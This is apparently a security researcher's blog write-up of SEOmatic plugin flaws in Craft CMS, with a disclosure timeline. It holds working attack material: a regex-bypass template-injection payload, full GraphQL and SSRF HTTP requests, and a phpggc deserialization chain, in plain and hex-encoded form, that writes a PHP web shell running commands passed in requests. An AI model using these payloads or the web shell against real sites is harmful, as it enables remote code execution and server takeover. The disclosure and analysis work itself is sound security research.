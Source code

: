 # Multiple vulnerabilities at Craft CMS SEOmatic plugin


A couple of months ago I was performing retest of an interesting Server Side Request Forgery (SSRF) vulnerability at `debug` GET parameter. Developers disabled it on load balancer and I decided to perform some fuzzing with awesome Burp Suite plugin [param-miner](https://github.com/PortSwigger/param-miner). There was no way to exploit SSRF but interesting parameter `action` was discovered. Future investigation show that it is default behavior of [Craft CMS](https://craftcms.com/). Fast search by public CVE retured promising vulnerability CVE-2018-14716. You can find information about issue and way to exploit it at blog post [0xB455](http://ha.cker.info/exploitation-of-server-side-template-injection-with-craft-cms-plguin-seomatic/). When you will finish reading article return and we find way to bypass fix and execute code at vulnerable system.

<!--more-->

### Initial setup of vulnerable CMS
Before we start let's prepare our own library. Craft CMS Seomatic plugin version before 3.3.15 required to reproduce issues. Intallation guide can be found at official [documentation](https://craftcms.com/docs/3.x/installation.html) plugin can be found at [plugin store](https://plugins.craftcms.com/seomatic). Vulnerable application had Pro license and to test localy I made small fix at file
⁨craft⁩/vendor⁩/⁨craftcms⁩/⁨cms⁩/⁨src⁩/⁨controllers/GraphqlController.php:57

```php
 // Craft::$app->requireEdition(Craft::Pro);
```

### Security protection bypass
Now everything is ready to get started. Fix of CVE-2018-14716 is implemented at function sanitizeUrl(). It takes user supplied parameter url decode it and replace all strings with following rule `/{.*}/` to delete all Twig template special symbols. Vulnerable code:

```php

	public static function sanitizeUrl(string $url, bool $checkStatus = true): string
    {
        // Remove the query string
        $url = UrlHelper::stripQueryString($url);
        // HTML decode the entities, then strip out any tags
        $url = html_entity_decode($url, ENT_NOQUOTES, 'UTF-8');
        $url = urldecode($url);
        $url = strip_tags($url);

        // If this is a >= 400 status code, set the canonical URL to nothing
        if ($checkStatus && Craft::$app->getResponse()->statusCode >= 400) {
            $url = '';
        }
        // Remove any Twig tags that somehow are present in the incoming URL
        /** @noinspection CallableParameterUseCaseInTypeContextInspection */
        $result = preg_replace('/{.*}/', '', $url);
        // var_dump($result);
        if (!empty($result) && $result) {
            $url = $result;
        } else {
            $url = '';
        }

        return $url;
    }
```
Hopefully for attacker Regular Expressions (Perl-Compatible) have some funny behavior that will allows to bypass such protection. Let's take a look at [docs](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) 
```
s (PCRE_DOTALL) 
If this modifier is set, a dot metacharacter in the pattern matches all characters, including newlines. Without it, newlines are excluded.
```
Finally to bypass protection malicious user should split it template injection payload with new line symbols. Proof of Concept can be presented as `{{\n13*13\n}}`. 
Seomatic plugin API was disabled at target assets - it is another major obstacle to seccusefully inject Twig template. By default it should be available at endpoint `/actions/seomatic/meta-container/all-meta-containers?uri=` and if you are lucky you can skip next section. 
![Seomatic plugin API](/images/seomatic-config.png)

### Graphql
There is another way to exploit vulnerability - Graphql Controller. By default graphql query available at `/actions/graphql/api`. Seomatic plugin register its seomatic query by default. We can get access to Secret information with unauthorization request to graphql api with `uri` value `{{\n1337*13\n}}`.

```html
POST /index.php?p=admin/actions/graphql/api HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8000/admin/seomatic/plugin
X-Requested-With: XMLHttpRequest
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 81

query=query{seomatic(uri:"{{\n1337*13\n}}"){metaTitleContainer,metaTagContainer}}

```
![Seomatic SSTI](/images/seomatic-ssti-1337.png)

### Remote code execution by unserialize
The old Remote Code Execution exploit available at internet looks like `{{craft.app.view.evaluateDynamicContent('print(system("ls"))')}}` but unfortunately for us it was disabled at version 3.5.0. At first I was trying to get RCE chain by unserialize function at `craft.app.getQueue().unserializeMessage()`. The only working chain at Craft CMS environment is *Guzzle/FW1* but it has some limitations that should be addressed first. Serialized object contains `{}` chars. We should modify string to exclude them from payload. As you may know PHP support `\\x00` encoding. I modified **phpggc** tool to print out exploit in new encoding. So it looks like:

```bash
./phpggc Guzzle/FW1 /tmp/exploit.txt data -s    
O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:41:"%00GuzzleHttp\Cookie\FileCookieJar%00filename"%3Bs:16:"/tmp/exploit.txt"%3Bs:52:"%00GuzzleHttp\Cookie\FileCookieJar%00storeSessionCookies"%3Bb:1%3Bs:36:"%00GuzzleHttp\Cookie\CookieJar%00cookies"%3Ba:1:{i:0%3BO:27:"GuzzleHttp\Cookie\SetCookie":1:{s:33:"%00GuzzleHttp\Cookie\SetCookie%00data"%3Ba:3:{s:7:"Expires"%3Bi:1%3Bs:7:"Discard"%3Bb:0%3Bs:5:"Value"%3Bs:80:"<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd'])%3B system($cmd)%3B }?>%0A"%3B}}}s:39:"%00GuzzleHttp\Cookie\CookieJar%00strictMode"%3BN%3B}

\\x4f\\x3a\\x33\\x31\\x3a\\x22\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x46\\x69\\x6c\\x65\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x22\\x3a\\x34\\x3a\\x7b\\x73\\x3a\\x34\\x31\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x46\\x69\\x6c\\x65\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x66\\x69\\x6c\\x65\\x6e\\x61\\x6d\\x65\\x22\\x3b\\x73\\x3a\\x31\\x36\\x3a\\x22\\x2f\\x74\\x6d\\x70\\x2f\\x65\\x78\\x70\\x6c\\x6f\\x69\\x74\\x2e\\x74\\x78\\x74\\x22\\x3b\\x73\\x3a\\x35\\x32\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x46\\x69\\x6c\\x65\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x73\\x74\\x6f\\x72\\x65\\x53\\x65\\x73\\x73\\x69\\x6f\\x6e\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x73\\x22\\x3b\\x62\\x3a\\x31\\x3b\\x73\\x3a\\x33\\x36\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x63\\x6f\\x6f\\x6b\\x69\\x65\\x73\\x22\\x3b\\x61\\x3a\\x31\\x3a\\x7b\\x69\\x3a\\x30\\x3b\\x4f\\x3a\\x32\\x37\\x3a\\x22\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x53\\x65\\x74\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x22\\x3a\\x31\\x3a\\x7b\\x73\\x3a\\x33\\x33\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x53\\x65\\x74\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x00\\x64\\x61\\x74\\x61\\x22\\x3b\\x61\\x3a\\x33\\x3a\\x7b\\x73\\x3a\\x37\\x3a\\x22\\x45\\x78\\x70\\x69\\x72\\x65\\x73\\x22\\x3b\\x69\\x3a\\x31\\x3b\\x73\\x3a\\x37\\x3a\\x22\\x44\\x69\\x73\\x63\\x61\\x72\\x64\\x22\\x3b\\x62\\x3a\\x30\\x3b\\x73\\x3a\\x35\\x3a\\x22\\x56\\x61\\x6c\\x75\\x65\\x22\\x3b\\x73\\x3a\\x38\\x30\\x3a\\x22\\x3c\\x3f\\x70\\x68\\x70\\x20\\x69\\x66\\x28\\x69\\x73\\x73\\x65\\x74\\x28\\x24\\x5f\\x52\\x45\\x51\\x55\\x45\\x53\\x54\\x5b\\x27\\x63\\x6d\\x64\\x27\\x5d\\x29\\x29\\x7b\\x20\\x24\\x63\\x6d\\x64\\x20\\x3d\\x20\\x28\\x24\\x5f\\x52\\x45\\x51\\x55\\x45\\x53\\x54\\x5b\\x27\\x63\\x6d\\x64\\x27\\x5d\\x29\\x3b\\x20\\x73\\x79\\x73\\x74\\x65\\x6d\\x28\\x24\\x63\\x6d\\x64\\x29\\x3b\\x20\\x7d\\x3f\\x3e\\x0a\\x22\\x3b\\x7d\\x7d\\x7d\\x73\\x3a\\x33\\x39\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x73\\x74\\x72\\x69\\x63\\x74\\x4d\\x6f\\x64\\x65\\x22\\x3b\\x4e\\x3b\\x7d
```
![Seomatic SSTI](/images/seomatic-ssti-unserialize.png)

Seccusesfully exploitation of vulnerability will creates `exploit.txt ` at `/tmp/` folder.

```bash
doge in ~/phpggc on master ● ● λ cat /tmp/exploit.txt 
[{"Expires":1,"Discard":false,"Value":"<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); }?>\n"}]%                                    
doge in ~/IdeaProjects/GIT/phpggc on master ● ● λ cat data  
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); }?>
doge in ~/phpggc on master ● ● λ 

```

# Remote code execution 
A few days later I found better way to exploit this vulnerability. As I mentioned earlier method `evaluateDynamicContent` was disabled at Craft CMS but it was not at **Yii::Base::View**. As you may already know Twig template engine support variables. We can use them to create new **Yii::Base::View** object and call `evaluateDynamicContent` method directly and bypass protection mechanism. Final exploit will looks like.

![Seomatic RCE](/images/seomatic-rce.png)

# Bonus. Server Side Request Forgery

Unauthorized Server Side Request Forgery at Craft CMS Seomatic plugin version before 3.3.15

### Details about vulnerability 
Controller FileController allows anonymous access by default. Function looks like:
```php
        $url = base64_decode($url);
        $robots = base64_decode($robots);
        $canonical = base64_decode($canonical);
        $url = UrlHelper::absoluteUrlWithProtocol($url);
        $contents = file_get_contents($url);
        $response = Craft::$app->getResponse();
```
Url parameter is base64 encoded malicious user host `http://3eif8shsnxsuvuyupt9o4bfwnntdh2.burpcollaborator.net/` is `aHR0cDovLzNlaWY4c2hzbnhzdXZ1eXVwdDlvNGJmd25udGRoMi5idXJwY29sbGFib3JhdG9yLm5ldC8=`

### Step to reproduce

```html
GET /index.php?action=seomatic/file/seo-file-link&url=aHR0cDovLzNlaWY4c2hzbnhzdXZ1eXVwdDlvNGJmd25udGRoMi5idXJwY29sbGFib3JhdG9yLm5ldC8= HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8000/admin/seomatic/plugin
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
![Seomatic SSRF](/images/seomatic-ssrf.png)
![Seomatic SSRF](/images/seomatic-ssrf-callback.png)

# Timeline

1. 13 Aug 2020 Vulnerabilities were discovered
2. 14 Aug 2020 Nystudio107 was informed about the vulnerabilities
3. 17 Aug 2020 fix released
4. CVE-ID to be done
5. XX Xxx Public disclosure

